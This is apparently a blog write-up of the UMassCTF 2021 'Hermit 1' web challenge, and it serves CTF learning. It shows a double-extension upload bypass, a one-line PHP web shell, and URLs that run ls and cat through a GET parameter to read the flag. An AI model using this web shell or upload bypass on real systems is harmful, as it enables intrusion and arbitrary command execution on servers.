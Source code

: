 ```yaml
---
layout: post
title: UMassCTF '21 Hermit 1 WriteUp
description: Solution for Hermit 1 challenge from UMassCTF 2021
tags: hacking
---
```


<center><a target="_blank" href="/assets/img/hermit-logo.png"><img alt="hermit logo" src="/assets/img/hermit-logo.png" width="300px"/></a></center>

## Solution

There is only one form that accepts a file.

The validation of the file is based on extension so we can try and upload `shell.php.jpg` image with content like this:

```php
<?=`$_GET[0]`?>
```

<br/>

When image is uploaded we see the page like this:

<a target="_blank" href="/assets/img/hermit-shell-uploaded.png"><img alt="hermit logo" src="/assets/img/hermit-shell-uploaded.png" width="500px"/></a>

Click on <strong>See image</strong> and we see a blank page with some strange PHP errors. It's because our "image" expects get param called "0" so let's add one.

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls`

and we can see list of directories in the project root.


<a target="_blank" href="/assets/img/hermit-ls-project-root.png"><img alt="hermit logo" src="/assets/img/hermit-ls-project-root.png" width="500px"/></a>

Now it's time to search for flag. Let's check home directory like this:

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home`

we see there is only one folder `hermit`

Let's check that folder:

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home/hermit` - and there is flag folder now.

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home/hermit/flag` - shows us `userflag.txt`

`104.197.195.221:8086/show.php?filename=VbvJC0&0=cat /home/hermit/flag/userflag.txt` - shows us the flag


<a target="_blank" href="/assets/img/hermit1-flag.png"><img alt="hermit logo" src="/assets/img/hermit1-flag.png" width="500px"/></a>
